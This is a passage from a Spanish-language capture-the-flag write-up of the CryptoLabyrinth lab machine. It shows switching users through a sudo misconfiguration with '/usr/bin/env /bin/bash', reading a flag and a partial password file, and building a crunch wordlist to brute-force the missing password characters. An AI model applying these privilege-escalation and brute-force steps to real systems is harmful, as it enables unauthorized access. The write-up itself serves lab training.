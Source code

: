 Utilizaremos el mismo comando que fue usado y que se menciona aquí:

<p align="center">
<img src="/assets/images/THL-writeup-cryptoLabyrinth/Captura9.png">
</p>

Probemos:
```bash
bob@TheHackersLabs-CryptoLabyrinth:~$ sudo -u alice /usr/bin/env /bin/bash
alice@TheHackersLabs-CryptoLabyrinth:/home/bob$ whoami
alice
```
Muy bien, somos el **usuario alice**.

<br>

<h2 id="root">Creando Wordlist de Posible Contraseña y Aplicando Fuerza Bruta al Usuario Root</h2>

Como este usuario, no podremos ver sus privilegios porque no tenemos su contraseña:
```bash
alice@TheHackersLabs-CryptoLabyrinth:/home/bob$ sudo -l
[sudo] contraseña para alice: 
Lo siento, pruebe otra vez.
```

Aquí encontraremos otra flag:
```bash
alice@TheHackersLabs-CryptoLabyrinth:/home/bob$ cd ../alice/
alice@TheHackersLabs-CryptoLabyrinth:~$ ls
user.txt
alice@TheHackersLabs-CryptoLabyrinth:~$ cat user.txt
...
```

Ahora podemos ver el archivo **.secreto.txt** del directorio `/mnt`:
```bash
alice@TheHackersLabs-CryptoLabyrinth:~$ cat /mnt/.secreto.txt 
2LWx*DsW0A*
```
Es la clave/contraseña que vimos en el historial del **usuario bob**.

Quizá sea la contraseña para el **usuario alice**, pero recuerda que le faltan 2 caracteres.

Tendremos que crear otro wordlist con **crunch**:
```bash
crunch 11 11 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -t 2LWx@DsW0A@ -o wordlist2.txt
Crunch will now generate the following amount of data: 46128 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 3844 

crunch: 100% completed generating output
```
